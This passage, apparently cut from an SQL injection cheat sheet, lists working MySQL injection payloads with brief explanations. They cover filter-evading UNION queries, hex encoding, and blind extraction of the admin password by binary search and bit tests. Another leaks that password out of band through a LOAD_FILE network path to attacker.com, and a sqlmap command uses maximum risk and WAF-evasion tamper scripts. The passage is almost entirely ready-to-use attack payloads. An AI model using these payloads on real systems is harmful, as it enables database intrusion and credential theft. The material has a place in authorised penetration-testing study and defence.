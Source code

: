 ```sql
' UNION SELECT!(username),password FROM users -- -
```
**Explanation**: Uses the ! operator to manipulate the query syntax while maintaining functionality.

### Encoding Tricks

```sql
' UNION SELECT 0x75736572,0x70617373 FROM users -- -
```
**Explanation**: Uses hex encoding (0x) to represent the strings "user" and "pass" to bypass filters.

```sql
' UNION SELECT CONCAT('0x',HEX(table_name)) FROM information_schema.tables -- -
```
**Explanation**: Converts table names to hex representation on the fly.

## 4. Blind SQL Injection Advanced Techniques

### Binary Search Method

```sql
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)) > 109 -- -
```
**Explanation**: Tests if the first character's ASCII value is greater than 109 (letter 'm'). By narrowing down the range, you can find the exact character much faster than testing each one.

### Bit-By-Bit Extraction

```sql
' AND (ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))&1)=1 -- -
```
**Explanation**: Tests just the lowest bit of the character's ASCII value. By testing each bit position, you can reconstruct the entire character.

### Out-of-Band Data Exfiltration

```sql
' AND IF(1=1, (SELECT LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users WHERE username='admin'), '.attacker.com\\share\\a'))), NULL) -- -
```
**Explanation**: Makes the MySQL server attempt to load a file from a network path that includes the password as part of the domain name, causing a DNS lookup that can be monitored.

## 5. Advanced Automation Tricks

### SQLMap Advanced Commands

```bash
sqlmap -u "http://target.com/page?id=1" --risk=3 --level=5 --tamper=between,randomcase,space2comment --random-agent --batch --dbms=mysql --dbs
```
**Explanation**: Uses multiple evasion techniques (tamper scripts) with maximum risk/level settings and a random user-agent to bypass WAFs.
